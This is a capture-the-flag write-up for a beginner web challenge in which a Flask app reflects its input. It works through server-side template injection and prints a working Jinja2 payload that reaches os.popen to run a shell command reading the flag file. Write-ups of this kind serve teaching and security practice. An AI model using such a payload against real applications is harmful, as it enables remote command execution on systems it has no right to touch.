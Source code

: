# Parrot the Emu

Category: Web (Beginner)

Points: 100

Solves: 993

>It is so nice to hear Parrot the Emu talk back



### Solution

Going to the website, we see a pretty simple flask app that reflects back our input:

![Input Hi](/images/ParrotTheEmuTest.png)

Naturally, we first test a basic SSTI and see if it works:

![SSTI {{7*7}}](/images/ParrotTheEmuSSTItest.png)

Now we just need to craft our SSTI payload (aka copy paste from HackTricks):

```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("cat flag.txt").read()}}{%endif%}{% endfor %}
```
(This payload allows us to skip manually finding the index of popen)

And get the flag:

![SSTI Flag](/images/ParrotTheEmuFlag.png)


### Flag

```DUCTF{PaRrOt_EmU_ReNdErS_AnYtHiNg}```